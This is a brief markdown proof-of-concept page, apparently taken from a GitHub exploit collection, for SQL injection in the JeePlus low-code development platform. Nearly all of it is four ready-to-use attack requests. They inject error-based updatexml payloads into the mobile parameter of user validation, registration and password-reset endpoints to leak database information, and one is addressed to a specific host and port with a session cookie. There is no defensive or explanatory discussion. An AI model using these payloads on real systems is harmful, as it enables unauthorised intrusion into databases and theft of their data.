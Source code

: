 # JeePlus_sqli
from: https://github.com/wy876/POC/blob/main/JeePlus%E4%BD%8E%E4%BB%A3%E7%A0%81%E5%BC%80%E5%8F%91%E5%B9%B3%E5%8F%B0%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.4.8 @2

POC1
```
GET /a/sys/user/validateMobile?&mobile=1%27+and+1%3D%28updatexml%281%2Cconcat%280x7e%2C%28select+md5%281%29%29%2C0x7e%29%2C1%29%29+and+%271%27%3D%271 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

POC2

```
GET /a/sys/user/validateMobileExist?&mobile=1%27+and+1%3D%28updatexml%281%2Cconcat%280x7e%2C%28select+md5%281%29%29%2C0x7e%29%2C1%29%29+and+%271%27%3D%271 HTTP/1.1
Host: 0.03.614.230:8282
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Cookie: jeeplus.session.id=a24d6e112a864ef795cce1f664a6022a;
```

POC3

```
/a/sys/register/registerUser?roleName=wangba&mobile=13300990099'and (updatexml(1,concat(0x7e,(select user()),0x7e),1))%23&randomCode=2131&loginName=test1&password=123123&confirmNewPassword=123123&ck1=on
```

POC4
```
/a/sys/user/resetPassword?mobile=13588888888'and (updatexml(1,concat(0x7e,(select user()),0x7e),1))%23
```
